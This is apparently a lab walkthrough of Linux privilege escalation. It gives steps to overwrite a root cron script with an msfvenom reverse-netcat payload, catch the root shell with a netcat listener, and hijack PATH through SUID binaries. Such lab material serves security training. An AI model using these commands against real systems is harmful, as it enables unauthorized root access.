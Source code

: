 ```
```

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"
	No answer required

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 
	No answer required

3. What is the flag to specify a payload in msfvenom?
	-p

4. Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"
	No answer needed

5. What directory is autoscript.sh under?
	/home/user4/Desktop 

6. Replace the contents of that file with the payload obtained from msfvenom
	"echo "[payload]" > autoscript.sh"

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!
	No answer needed
8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 
	No answer needed

## [Task 9] Exploiting PATH Variable
'''
What is PATH?

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user run any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.

It is very simple to view the Path of the relevant user with help of the command "echo $PATH".

How does this let us escalate privileges?

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!
'''

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"
	No answer needed
